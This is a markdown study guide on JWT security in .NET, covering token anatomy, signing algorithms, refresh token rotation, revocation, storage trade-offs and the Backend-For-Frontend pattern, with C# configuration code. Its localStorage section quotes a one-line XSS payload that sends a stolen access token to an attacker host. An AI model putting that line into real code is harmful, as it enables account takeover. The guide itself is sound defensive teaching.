




# 04. JWT Architecture, Token Lifecycle & Storage Strategies

#Security #Authentication #JWT #Tokens #DotNet #AspNetCore #BFF #SystemDesign #OWASP #InterviewPreparation

> [!abstract] Executive Summary
> **JSON Web Token (JWT - RFC 7519)** is the industry-standard, compact, URL-safe container used to transmit cryptographically verifiable claims between parties. In distributed cloud systems, JWTs enable **stateless authorization**, allowing services to authenticate requests without performing synchronous database lookups on every HTTP call.
> 
> However, pure statelessness introduces severe architectural trade-offs: **the inability to revoke compromised tokens**, **token bloat over the wire**, and **client-side storage vulnerabilities (XSS vs. CSRF)**. 
> 
> This guide provides a definitive architectural breakdown of JWT anatomy, **JWS (Signing) vs. JWE (Encryption)**, **Symmetric (HS256) vs. Asymmetric (RS256/ES256)** signing algorithms, **Refresh Token Rotation (RTR)**, **Redis-backed token revocation**, and the modern industry-standard **Backend-For-Frontend (BFF)** pattern in **.NET 8/9 & ASP.NET Core**.

---

## 1. Why JWT? The Predecessor Architecture Dilemma

Before the widespread adoption of JWTs, web systems relied on two primary authentication paradigms, both of which struggle in horizontally scaling distributed systems:

```
┌─────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                 THE EVOLUTION OF AUTH CREDENTIALS                               │
├─────────────────────────┬───────────────────────────────┬───────────────────────────────────────┤
│ Architecture            │ Mechanism                     │ Scalability Bottleneck                │
├─────────────────────────┼───────────────────────────────┼───────────────────────────────────────┤
│ 1. Stateful Sessions    │ In-memory session on server;  │ Requires Sticky Sessions (Affinity)   │
│    (Monolithic Era)     │ Session ID passed in cookie.  │ Node crash = user session destroyed.  │
├─────────────────────────┼───────────────────────────────┼───────────────────────────────────────┤
│ 2. Opaque Tokens        │ Random GUID stored in DB;     │ Synchronous database query on EVERY   │
│    (Database-Backed)    │ Client sends GUID in header.  │ single API request $\to$ DB bottleneck│
├─────────────────────────┼───────────────────────────────┼───────────────────────────────────────┤
│ 3. Self-Contained JWT   │ Cryptographically signed      │ **Zero database lookups on reads!**   │
│    (Modern Distributed) │ claims package held by client.│ Verified locally using public key.    │
└─────────────────────────┴───────────────────────────────┴───────────────────────────────────────┘
```

---

## 2. Anatomy of a JWT: Base64Url Encoding & Structure

A JWT consists of three distinct components separated by periods (`.`):
$$\text{JWT} = \text{Base64Url}(\text{Header}) \,.\, \text{Base64Url}(\text{Payload}) \,.\, \text{Signature}$$

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjFhMmIifQ
.eyJzdWIiOiJ1c3ItMTA0MiIsIm5hbWUiOiJBbGljZSIsInJvbGVzIjpbIkFkbWluIl0sImV4cCI6MTcxOTAwMDAwMCwiaXNzIjoiaHR0cHM6Ly9hdXRoLmFjbWUuY29tIn0
.k8H1B_eD6tqZ...[Cryptographic Signature Bytes]...
```

```
┌──────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                       JWT THREE-TIER ANATOMY                                     │
├───────────────────────┬─────────────────────────────────┬────────────────────────────────────────┤
│ Component             │ Raw Decoded JSON                │ Purpose                                │
├───────────────────────┼─────────────────────────────────┼────────────────────────────────────────┤
│ 1. Header             │ `{"alg": "RS256", "typ": "JWT", │ Specifies cryptographic algorithm,     │
│                       │   "kid": "auth-key-2026"}`      │ token format, and Key ID for rotation. │
├───────────────────────┼─────────────────────────────────┼────────────────────────────────────────┤
│ 2. Payload (Claims)   │ `{"sub": "usr-1042",            │ Carries identity claims, issuer,       │
│                       │   "tenant_id": "tenant-99",     │ expiration timestamp, and roles.       │
│                       │   "exp": 1719000000}`           │                                        │
├───────────────────────┼─────────────────────────────────┼────────────────────────────────────────┤
│ 3. Signature          │ Binary cryptographic digest     │ Proves payload was not modified        │
│                       │ computed over Header + Payload  │ by an intermediary or client.          │
└───────────────────────┴─────────────────────────────────┴────────────────────────────────────────┘
```

> [!CAUTION] Base64Url is ENCODING, NOT ENCRYPTION!
> Anyone who intercepts a JWT can paste it into `jwt.io` and read every single claim in plaintext. 
> - **Never place sensitive secrets** (passwords, credit card numbers, social security numbers, unencrypted PII) inside a standard JWT payload!
> - If payload secrecy is required over an untrusted transport, use **JWE (JSON Web Encryption)**.

---

## 3. Signing vs. Encryption: JWS vs. JWE

* **JWS (JSON Web Signature - RFC 7515):** The standard JWT format. The payload is **publicly readable**, but **tamper-proof**. If a client changes `"role": "User"` to `"role": "Admin"`, the signature verification fails immediately.
* **JWE (JSON Web Encryption - RFC 7516):** The payload is **fully encrypted**. Only parties possessing the decryption key can view the claims. Used for high-compliance banking or healthcare tokens where identity attributes themselves must remain confidential over the wire.

---

## 4. Cryptographic Algorithms: Symmetric (HS256) vs. Asymmetric (RS256 / ES256)



| Dimension | Symmetric (`HS256` - HMAC-SHA256) | Asymmetric (`RS256` - RSA / `ES256` - ECDSA) |
| :--- | :--- | :--- |
| **Key Architecture** | Single shared secret key for signing & verifying. | **Private Key** signs; **Public Key** verifies. |
| **Security Surface** | If *any* microservice verifying tokens is compromised, the attacker steals the key and can **forge tokens for the entire ecosystem!** | Verifying APIs only hold public keys. Compromising an API node **cannot** result in token forgery. |
| **Performance** | Extremely fast CPU calculation. | Slightly higher CPU verification cost. |
| **Key Distribution** | Difficult; must securely distribute secret to all nodes. | Trivial; public keys served via **JWKS endpoint** (`/.well-known/jwks.json`). |
| **Production Recommendation** | Only acceptable for single-monolith internal tokens. | **Mandatory standard for microservices, mobile, & SPAs.** |

---

## 5. The Stateless Dilemma: Token Expiration & Revocation

The greatest strength of a JWT—that it is verified without querying a database—is also its greatest architectural vulnerability:
> **Once signed and issued, a JWT cannot be revoked until its `exp` timestamp arrives.**

If an employee is fired, an account is suspended, or a token is stolen by an attacker, the token remains fully functional across all backend microservices until expiration.



### Defense-in-Depth Lifecycle Strategy
1. **Short-Lived Access Tokens (5–15 Minutes):** Limits the attacker's window of opportunity if a token is intercepted.
2. **Refresh Token Rotation (RTR):** When an access token expires, the client sends the refresh token to the authorization server to exchange for a *new* access token and a *brand new* refresh token. The old refresh token is instantly invalidated.
3. **Replay Detection (Automatic Breach Mitigation):** If an attacker attempts to use an already-rotated refresh token, the authorization server recognizes a **Token Replay Attack** and **immediately revokes all active tokens for that user**.



### Emergency Immediate Revocation (Redis Blacklisting)
For high-security operations (e.g., immediate password resets, admin bans), services maintain a **Redis Revocation Set**:
- When a user logs out or is banned, their token's unique identifier (`jti` - JWT ID) is written to Redis with a TTL equal to the remaining token lifespan.
- Microservices check `redis.KeyExists(jti)` only on sensitive administrative actions.

---

## 6. The Storage Battleground: `localStorage` vs. `HttpOnly` Cookies

```
┌─────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                 TOKEN STORAGE SECURITY TRADEOFFS                                │
├─────────────────────┬───────────────────────────────┬───────────────────────────────────────────┤
│ Dimension           │ Browser `localStorage`        │ Secure `HttpOnly` Cookie                  │
├─────────────────────┼───────────────────────────────┼───────────────────────────────────────────┤
│ **Storage Target**  │ `window.localStorage` (JS)    │ Browser Cookie Jar                        │
│ **XSS Resistance**  │ ❌ **FATAL:** Any injected JS │ ✅ **IMMUNE:** JavaScript cannot read     │
│                     │ can read and exfiltrate token │ `HttpOnly` cookies.                       │
├─────────────────────┼───────────────────────────────┼───────────────────────────────────────────┤
│ **CSRF Resistance** │ ✅ Immune: Must be manually   │ ⚠️ Vulnerable: Sent automatically by      │
│                     │ injected via JS header.       │ browser; requires `SameSite` + Anti-CSRF. │
├─────────────────────┼───────────────────────────────┼───────────────────────────────────────────┤
│ **IETF / OWASP BCP**│ **Formally Deprecated** for   │ **Recommended** for web browser clients.  │
│                     │ browser token storage.        │                                           │
└─────────────────────┴───────────────────────────────┴───────────────────────────────────────────┘
```

> [!DANGER] Why Storing Access Tokens in `localStorage` is an Anti-Pattern
> In a modern frontend application utilizing hundreds of open-source NPM dependencies, a single supply-chain compromise or reflected XSS bug allows an attacker to execute:
> ```javascript
> fetch('https://attacker.com/steal?token=' + localStorage.getItem('access_token'));
> ```
> With the raw JWT exfiltrated, the attacker bypasses all CORS, IP restrictions, and client safeguards.

---

## 7. The Modern Gold Standard: The Backend-For-Frontend (BFF) Pattern

To eliminate XSS token theft while protecting against CSRF, modern web architectures implement the **Backend-For-Frontend (BFF) Pattern**:



### How the BFF Pattern Hardens Security:
1. **The SPA Never Sees the Token:** The browser only holds a strongly encrypted, `__Host-` prefixed, `HttpOnly`, `SameSite=Strict` session cookie.
2. **Immune to XSS Token Exfiltration:** Even if an attacker finds an XSS vulnerability, they cannot steal the access token because it lives exclusively on the backend BFF server.
3. **Immune to CSRF:** The BFF requires a custom anti-forgery request header (e.g., `X-CSRF-TOKEN: 1`) on all state-modifying requests (`POST`, `PUT`, `DELETE`), which cross-site forms cannot produce.
4. **Backend Transformation:** The BFF acts as a reverse proxy, stripping the session cookie and attaching the raw `Authorization: Bearer <jwt>` before forwarding requests to internal downstream microservices.

---

## 8. Production Implementation in .NET 8/9 (`JsonWebTokenHandler`)

> [!TIP] .NET 8/9 Performance Optimization
> In .NET 8+, Microsoft replaced `JwtSecurityTokenHandler` with **`JsonWebTokenHandler`**. It is ~30% faster, performs zero unnecessary memory allocations, and is thread-safe.

### 1. Token Issuance Service (`TokenService.cs`)
```csharp
using System.Security.Claims;
using System.Security.Cryptography;
using Microsoft.IdentityModel.JsonWebTokens;
using Microsoft.IdentityModel.Tokens;

public class TokenService
{
    private readonly RSA _rsaPrivateKey;
    private readonly string _keyId = "auth-key-2026";
    private readonly JsonWebTokenHandler _tokenHandler = new();

    public TokenService(RSA rsaPrivateKey) => _rsaPrivateKey = rsaPrivateKey;

    public string GenerateAccessToken(string userId, string tenantId, IEnumerable<string> roles)
    {
        var signingCredentials = new SigningCredentials(
            new RsaSecurityKey(_rsaPrivateKey) { KeyId = _keyId },
            SecurityAlgorithms.RsaSha256);

        var claims = new Dictionary<string, object>
        {
            [JwtRegisteredClaimNames.Sub] = userId,
            [JwtRegisteredClaimNames.Jti] = Guid.NewGuid().ToString(),
            ["tenant_id"] = tenantId,
            ["roles"] = roles
        };

        var descriptor = new SecurityTokenDescriptor
        {
            Issuer = "https://auth.enterprise.com",
            Audience = "https://api.enterprise.com",
            Claims = claims,
            Expires = DateTime.UtcNow.AddMinutes(15), // Short-lived!
            SigningCredentials = signingCredentials
        };

        return _tokenHandler.CreateToken(descriptor);
    }

    public string GenerateRefreshToken()
    {
        // Cryptographically secure random 64-byte string
        return Convert.ToBase64String(RandomNumberGenerator.GetBytes(64));
    }
}
```

### 2. Microservice Token Validation Configuration (`Program.cs`)
```csharp
using Microsoft.AspNetCore.Authentication.JwtBearer;
using Microsoft.IdentityModel.JsonWebTokens;
using Microsoft.IdentityModel.Tokens;

var builder = WebApplication.CreateBuilder(args);

builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        // Enforce high-performance JsonWebTokenHandler
        options.TokenHandlers.Clear();
        options.TokenHandlers.Add(new JsonWebTokenHandler());

        options.TokenValidationParameters = new TokenValidationParameters
        {
            ValidateIssuer = true,
            ValidIssuer = "https://auth.enterprise.com",

            ValidateAudience = true,
            ValidAudience = "https://api.enterprise.com",

            ValidateIssuerSigningKey = true,
            // In production, public keys are retrieved automatically via Authority / JWKS:
            // options.Authority = "https://auth.enterprise.com";
            
            ValidateLifetime = true,
            // 🚨 Mandatory: Eliminate the default 5-minute clock drift grace period!
            ClockSkew = TimeSpan.Zero,

            // Pin allowed signing algorithms to defeat 'alg: none' and key-confusion attacks
            ValidAlgorithms = [SecurityAlgorithms.RsaSha256, SecurityAlgorithms.EcdsaSha256]
        };
    });

builder.Services.AddAuthorization();

var app = builder.Build();
app.UseAuthentication();
app.UseAuthorization();
app.Run();
```

---

## 9. Security Anti-Patterns to Avoid

| Anti-Pattern | Why It Causes Breaches in Production | The Correct Solution |
| :--- | :--- | :--- |
| **"Permitting `alg: none`"** | Attackers modify header to `{"alg": "none"}`, remove signature, and become administrators. | Explicitly pin `TokenValidationParameters.ValidAlgorithms`. |
| **"Storing Tokens in `localStorage`"** | XSS attacks instantly steal access tokens, exposing users to account takeover. | Use the **BFF Pattern** with `HttpOnly`, `SameSite=Strict` cookies. |
| **"Long-Lived Access Tokens (24h+)"** | Stolen tokens remain active for hours with zero ability to revoke them. | Issue **10-15 minute access tokens** paired with Refresh Token Rotation. |
| **"Symmetric HS256 in Microservices"** | Distributing the secret key to 20 microservices means 1 compromised service can forge tokens for all 20. | Use **Asymmetric RS256/ES256** with public keys distributed via JWKS. |
| **"Ignoring `ClockSkew` Default"** | ASP.NET Core defaults `ClockSkew` to 5 minutes, allowing expired tokens to be accepted 5 minutes past `exp`. | Explicitly set `ClockSkew = TimeSpan.Zero`. |
| **"Placing PII / Passwords in JWT"** | Base64Url is not encryption; claims are readable in plaintext by anyone in transit. | Only store opaque identifiers (`sub`, `tenant_id`) or encrypt via JWE. |

---

## 10. Senior Staff Interview Script

> [!TIP] The "JWT Architecture & Security" Interview Response
> *"When architecting token-based authentication in enterprise systems, I treat JWTs as self-contained authorization tickets designed strictly for high-throughput, stateless verification across downstream services.
> 
> To eliminate the risk of key-leakage across microservices, we sign tokens using **asymmetric cryptography (RS256 or ES256)**. The authorization server retains the private signing key, while downstream APIs validate tokens using cached public keys via the **JWKS endpoint**, ensuring no compromised microservice can forge credentials.
> 
> Because pure statelessness makes immediate token revocation difficult, we enforce a strict two-tier lifecycle: **short-lived access tokens (10–15 minutes)** paired with **Refresh Token Rotation (RTR)**. Stored in Redis with familial tracking, any attempt to replay an old refresh token immediately revokes all active sessions for that user family.
> 
> Finally, for browser-based single-page applications, we never expose access tokens to JavaScript in `localStorage` due to XSS exfiltration risks. Instead, we implement the **Backend-For-Frontend (BFF) pattern**, proxying API calls using encrypted, `__Host-` prefixed, `HttpOnly`, `SameSite=Strict` cookies coupled with anti-forgery CSRF tokens."*
